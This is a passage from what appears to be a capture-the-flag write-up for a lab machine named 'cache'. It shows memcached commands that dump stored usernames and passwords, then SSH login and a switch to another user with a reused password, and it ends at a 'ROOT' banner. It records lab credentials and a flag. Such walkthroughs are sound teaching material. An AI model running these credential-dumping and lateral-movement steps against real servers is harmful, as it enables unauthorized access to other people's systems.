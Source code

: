     We have a lot of stats and we can retrieve the active slab class: 1.
    Syntax: stats cachedump <slab class> <number of items to dump>
     stats cachedump 1 1000
      ITEM link [21 b; 0 s]
      ITEM user [5 b; 0 s]
      ITEM passwd [9 b; 0 s]
      ITEM file [7 b; 0 s]
      ITEM account [9 b; 0 s]
      END

    User and Passwd looks promising, so we dump thoese.
    Syntax: get <item name>
     get user
      VALUE user 0 5
      luffy
      END

     get passwd
      VALUE passwd 0 9
      0n3_p1ec3
      END

     get account
      VALUE account 0 9
      afhj556uo
      END


7. The credentials, luffy:0n3_p1ec3, can be used to access the box through SSH. Maybe some of the passwords we've found throughout
   this journey can be used for user Ash, so I decided to try changing user.

   luffy@cache:/dev/shm$ id
    uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
   luffy@cache:/dev/shm$ su ash
    Password: H@v3_fun
   ash@cache:/dev/shm$ whoami
    ash
   ash@cache:/dev/shm$ cat /home/ash/user.txt
    6d6c7f30cc8a6f30d6064c93626c0ad2


   NOTE VERIFIED CREDS:
     ash:H@v3_fun
     luffy:0n3_p1ec3
     openemr_admin:xxxxxx


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝
